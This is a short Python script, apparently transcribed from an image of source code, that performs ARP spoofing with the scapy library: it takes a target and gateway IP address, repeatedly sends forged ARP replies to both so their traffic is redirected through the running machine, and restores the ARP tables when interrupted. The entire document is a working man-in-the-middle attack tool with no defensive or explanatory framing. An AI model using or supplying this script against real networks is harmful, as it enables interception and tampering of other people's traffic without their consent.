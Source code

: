 ```python
import scapy.all as scapy
import time
import argparse

def get_args():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", dest = "target_ip", help = "IP Address of the target.")
    parser.add_argument("-g", "--gateway", dest = "gateway_ip", help = "IP Address of the Gateway.")
    options = parser.parse_args()
    if not options.target_ip:
        #Code to handle if an IP Address of the target is not specified.
        parser.error("[-] Please specify an IP Address of the target machine, use --help for more info.")
    elif not options.gateway_ip:
        #Code to handle if an IP Address of the gateway is not specified.
        parser.error("[-] Please specify an IP Address of the gateway, use --help for more info.")
    return options

def get_mac(ip):
    arp_req_frame = scapy.ARP(pdst = ip)
    broadcast_ether_frame = scapy.Ether(dst = "ff:ff:ff:ff:ff:ff")
    broadcast_ether_arp_req_frame = broadcast_ether_frame / arp_req_frame
    answered_list = scapy.srp(broadcast_ether_arp_req_frame, timeout = 1, verbose = False)[0]
    return answered_list[0][1].hwsrc

def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    spoof_packet = scapy.ARP(op = 2, pdst = target_ip, hwdst = target_mac, psrc = spoof_ip)
    scapy.send(spoof_packet, verbose = False)
    
def restore(source_ip, destination_ip):
    source_mac = get_mac(source_ip)
    destination_mac = get_mac(destination_ip)
    restore_packet = scapy.ARP(op = 2, pdst = destination_ip, hwdst = destination_mac, psrc = source_ip, hwsrc = source_mac)
    scapy.send(restore_packet, count =1, verbose = False)
  
packets_sent = 0

options = get_args()
target_ip = options.target_ip
gateway_ip = options.gateway_ip

try:
    while True:
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        packets_sent += 2
        print("\r[+] Packets Sent: {}".format(packets_sent), end = "")
        time.sleep(2)
        
except KeyboardInterrupt:
    print("\n[-] Detected Ctrl + C..... Restoring the ARP Tables..... Be Patient")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)
```
